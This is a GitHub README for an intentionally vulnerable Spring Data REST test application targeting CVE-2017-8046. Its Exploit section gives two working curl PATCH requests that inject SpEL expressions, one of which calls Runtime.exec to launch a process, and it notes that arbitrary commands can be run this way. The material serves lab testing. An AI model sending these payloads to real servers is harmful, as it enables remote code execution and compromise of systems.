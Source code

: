 # Spring Break Vulnerable Application

This is a vulnerable application to test the exploit for the **Spring Break** vulnerability (**CVE-2017-8046**).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

** *DISCLAIMER*: I do not take responsibility for the way in which any one uses this application (SpringBreakVulnerableApp). The only purpose of this application is to be a test scenario for the Spring Break exploit and it should not be used maliciously. If your server is compromised via an installation of SpringBreakVulnerableApp it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-2017-8046
* **Link**: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046)
* **Description**: Malicious *PATCH* requests submitted to *spring-data-rest* servers in **Pivotal Spring Data REST** versions prior to **2.5.12**, **2.6.7**, **3.0 RC3**, **Spring Boot** versions prior to **2.0.0M4**, and **Spring Data** release trains prior to **Kay-RC3** can use specially crafted JSON data to run arbitrary Java code.

## Usage

The application can be launched with the following Maven command.

```
mvn spring-boot:run
```
To insert data you can use the following curl command.

```
curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://hostname:port/entity
```

## Exploit

Probably the simplest exploit is the following request.

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Thread).sleep(10000).x", "value" : "pwned" }]' "http://hostname:port/entity/1"
```

On Windows, the calc.exe process can be launched with the following request. Similar requests can be used to launch arbitrary commands.

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
```

## Authors

* **Antonio Francesco Sardella** - *implementation* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the MIT License - see the **LICENSE.txt** file for details.

## Acknowledgments

* [Man Yue Mo](https://lgtm.com/blog/spring_data_rest_CVE-2017-8046_ql) the security researcher who discovered the vulnerability